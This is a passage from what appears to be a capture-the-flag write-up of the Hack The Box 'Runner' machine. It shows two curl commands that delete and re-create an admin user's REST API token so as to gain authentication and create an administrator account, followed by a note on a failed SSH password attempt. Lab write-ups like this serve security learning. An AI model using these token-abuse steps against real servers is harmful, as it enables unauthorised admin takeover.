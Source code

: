 
"Token already exists"


We can send a delete request and then re-post:


`curl <site_url>/app/rest/users/id:1/tokens/RPC2 -X DELETE`


`curl <site_url>/app/rest/users/id:1/tokens/RPC2 -X POST`


it will return a token that can be used to authenticate and create an admin account.




Returning to the site we can examine the users page:




![alt text](/assets/imgs/htb-runner/image-10.png)








I initially tried to simply change this "John" user's password and then ssh in with it but that did not work.

